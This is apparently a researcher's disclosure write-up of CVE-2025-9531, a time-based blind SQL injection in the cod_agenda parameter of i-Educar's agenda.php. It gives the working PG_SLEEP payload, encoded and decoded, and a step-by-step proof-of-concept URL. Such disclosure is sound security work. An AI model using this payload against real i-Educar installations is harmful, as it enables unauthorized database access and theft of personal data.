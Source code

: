 # CVE-2025-9531


How I Found a **Time-Based Blind SQL Injection** in i-Educar (With Real Delay and PoC).

<!--more-->

> ***🇧🇷 Ler em [Português](http://karinagante.github.io/pt-br/cve-2025-9531).***

## CVE-2025-9531

### Introduction

<p align="justify">While diving into the <b><a href="https://github.com/portabilis/i-educar" target=_blank>i-Educar</a></b> Open-Source project, I uncovered a critical time-based blind SQL Injection vulnerability in the <b>cod_agenda</b> parameter of the <b>agenda.php</b> endpoint. </br> This flaw allows attackers to execute arbitrary SQL queries silently against the backend database, putting data confidentiality, integrity, and availability at risk. </br> After validating the issue using a payload that caused measurable delays in the server's response, I reported it responsibly, and it was officially assigned as <b><a href="https://www.cve.org/CVERecord?id=CVE-2025-9531" target=_blank>CVE-2025-9531</a></b>. </p>

### What is CVE-2025-9531?

<p align="justify"><b><a href="https://www.cve.org/CVERecord?id=CVE-2025-9531" target=_blank>CVE-2025-9531</a></b> is a SQL Injection vulnerability in the <b>/intranet/agenda.php</b> endpoint of the <b><a href="https://github.com/portabilis/i-educar" target=_blank>i-Educar</a></b> application. </br> The vulnerable parameter is <b>cod_agenda</b>, which lacks proper input validation. </br> This makes it possible to inject custom SQL queries, including <code>PG_SLEEP()</code> functions that introduce time delays, confirming the flaw via time-based behavior. </p>

### Technical Details

➤ **Vulnerable Endpoint** `/intranet/agenda.php`

➤ **Affected Parameter:** `cod_agenda`

> ➤ **Payload Used (Encoded)**
> ```html
>%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO
>```

> ➤ **Payload Used (Decoded)**
> ```html
>' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
>```

### Proof of Concept (PoC)

To reproduce the vulnerability:

➤ Access the vulnerable endpoint and click **"Novo Compromisso"** (New Appointment)

➤ Fill in the required fields and click **"Salvar"** (Save)

➤ The system redirects to a URL like:

```html
http://localhost:8086/intranet/agenda.php?cod_agenda=2&time=1755283
```
<br>
➤ Now, modify the `cod_agenda` parameter with the payload:

```html
/intranet/agenda.php?cod_agenda=2' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
```
> <p align="justify">The server will take 5 seconds to respond, confirming that the SQL query was executed successfully.</p>

<p align="center">
<img src="/images/CVE-2025-9531/PoC1.png"><br>
</p>

{{<admonition tip Report>}}
You can access the full report and see the complete step-by-step instructions. Here:

{{< fa-icon regular github >}}
***[CVE-2025-9531 Report](https://github.com/KarinaGante/KGSec/blob/main/CVEs/i-educar/CVE-2025-9531.md)***
{{< /admonition >}}

### Impact

This vulnerability can be exploited to:

- Access sensitive data stored in the database;
- Enumerate database schemas, tables, and columns;
- Modify, delete, or insert arbitrary records;
- Steal user credentials and personal information;
- Perform a denial of service (DoS) attack by triggering long query delays;
- In some cases, escalate to Remote Code Execution (RCE).

### Official Sources

The flaw was ethically reported and attributed as:

{{< admonition important References>}} 
{{< fa-icon regular shield >}}
***[CVE-2025-9531 on CVE.org](https://www.cve.org/CVERecord?id=CVE-2025-9531)***

{{< fa-icon regular database >}} 
***[VulDB Entry](https://vuldb.com/?id.321550)***
{{< /admonition >}}

### Conclusion

<p align="justify">SQL injection attacks remain one of the most critical threats to web applications, especially when silent and time-based. This discovery demonstrates how a single unvalidated parameter can compromise the entire database behind a platform. </br></br> If you're a developer or security analyst, be aware: <b>even small, seemingly harmless endpoints can hide dangerous flaws.</b></p>

## Credits

***Discovered with 💜 by [Karina Gante](https://karinagante.github.io/).***

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.gante1@gmail.com)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

> ***Official Member of [CVE-Hunters](https://www.cvehunters.com/)🏹***
